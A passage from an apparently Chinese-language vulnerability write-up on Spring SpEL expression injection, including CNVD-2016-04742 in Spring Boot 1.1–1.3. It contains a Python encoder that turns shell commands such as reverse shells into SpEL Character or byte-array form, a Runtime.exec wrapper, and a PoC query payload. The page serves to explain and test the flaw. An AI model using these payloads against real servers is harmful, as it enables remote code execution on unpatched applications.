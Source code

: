 ![image-20200331092210362](https://github-1300513062.cos.ap-shanghai.myqcloud.com/img/20200401131647.png)

但是此命令执行，不会在页面上显示，只会打印出运行的对象。

如果要执行反弹shell等命令，由于页面HTML编码的原因，SPEL返回值时进行了一次html编码，所以导致取出的 值时会进行一次转义，利用如下脚本加工。

```


1.  `#coding:utf-8`

3.  `message = input('Enter message to encode:')`

5.  `print('Decoded string (in ASCII):\n')`

7.  `print('T(java.lang.Character).toString(%s)' % ord(message[0]), end="")`
8.  `for ch in message[1:]:`
9.   `print('.concat(T(java.lang.Character).toString(%s))' % ord(ch), end=""),` 
10.  `print('\n')`

12.  `print('new java.lang.String(new byte[]{', end=""),`
13.  `print(ord(message[0]), end="")`
14.  `for ch in message[1:]:`
15.   `print(',%s' % ord(ch), end=""),` 
16.  `print(')}')`




```

执行输出后再添加：

```


1.  `T(java.lang.Runtime).getRuntime().exec(payload)`


```

### [](#CNVD-2016-04742-Spring-Boot框架SPEL表达式注入漏洞 "CNVD-2016-04742 Spring Boot框架SPEL表达式注入漏洞")CNVD-2016-04742 Spring Boot框架SPEL表达式注入漏洞

影响版本：1.1.0-1.1.12、1.2.0-1.2.7、1.3.0

[https://www.cnblogs.com/litlife/p/10183137.html](https://www.cnblogs.com/litlife/p/10183137.html)

下载存在漏洞的版本1.3.0：[https://github.com/spring-projects/spring-boot/archive/v1.3.0.RELEASE.zip](https://github.com/spring-projects/spring-boot/archive/v1.3.0.RELEASE.zip)

POC：

```


1.  `/?payload=${new%20java.lang.String(new%20byte[]{70, 66, 66, 50, 48, 52, 65, 52, 48, 54, 49, 70, 70, 66, 68, 52, 49, 50, 56, 52, 65, 56, 52, 67, 50, 53, 56, 67, 49, 66, 70, 66})}`
2.  `结果：`
3.  `FBB204A4061FFBD41284A84C258C1BFB`
4.  `返回结果是md5(wooyun)`


```
